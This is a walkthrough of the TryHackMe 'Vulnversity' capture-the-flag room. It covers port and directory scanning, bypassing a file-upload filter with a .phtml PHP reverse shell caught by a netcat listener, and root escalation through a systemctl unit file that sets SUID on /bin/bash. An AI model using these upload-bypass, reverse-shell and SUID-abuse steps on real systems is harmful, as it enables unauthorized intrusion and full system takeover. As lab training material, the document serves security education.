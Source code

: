 # Vulnversity - solution
- Link: https://tryhackme.com/room/vulnversity
- Difficulty: `easy`

## Host recognition
- `cd nmap`
-  `nmap --open <IP> -oG scan`
 -  `extractPorts scan` (custom command) to copy open ports
- `nmap -sCV -p21,22,139,445,3128,3333 <IP> -oN ports`

## Port 3333 (Apache http) - website recognition
- `gobuster dir -u http://<IP>:3333 -w /usr/share/wordlists/dirb/common.txt -o hidden_dir` to discover hidden directories
- Found `/internal`
- Found an input form on `http://<IP>:3333/internal`
- Tried to brute force that form with any possible file extension
- On browser:
  - Added FoxyProxy extension (`127.0.0.1:8080` as proxy)
- On Burpsuite:
  - `Proxy` -> `Intercept on`
- On browser:
  - Started FoxyProxy 
  - Uploaded a random file on the `http://<IP>:3333/internal` input form
- On Burpsuite:
  - Sent to Intruder the error message 
  - On `Intruder` window:
    - Removed all the `$` characters and added them only between `.png` (uploaded a .png file in my case)
  - On `Payload` window:
    - `Load` -> `/usr/share/seclists/Discovery/Web-Content/raft-small-extensions-lowercase.txt`
    - Unchecked `URL-encode these characters` option
    - Started the attack
    - Found `.phtml` as extension with a different response lenght, so I could exploit this vulnerability uploading a `.phtml` file 

## Exploitation
- `cd scripts`
- Downloaded `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php` 
- Set my own IP and a random port in that code
- Uploaded the file
- `nc -lvnp <port>` to make NetCat listen on the specified port
- Visited `http://<IP>:3333/internal/upload` and run the uploaded file (this hidden subdirectory should appear if we run `gobuster dir -u http://<IP>:3333/internal -w /usr/share/wordlists/dirb/common.txt -o hidden_dir`)
- Inside the reverse shell:
  - `cd /home/bill`
  - `cat user.txt`
    - Found the `USER FLAG`
  
## Privileges escalation
- Inside the reverse shell:
  - Couldn't access `/root`, so:
  - `find / -perm -4000 2>/dev/null` to find binaries 
  - `sudo -l` to discover which binary the active user may run as superuser
  - Found `systemctl`
- Checked it on https://gtfobins.github.io and found how to exploit the binary
- On another window, modified:
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
to
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
- Inside the reverse shell:
  - Pasted that modified code
  - `whoami` to check if I were the root user
  - `cd /root`
  - `cat root.txt`
    - Found the `ROOT FLAG`
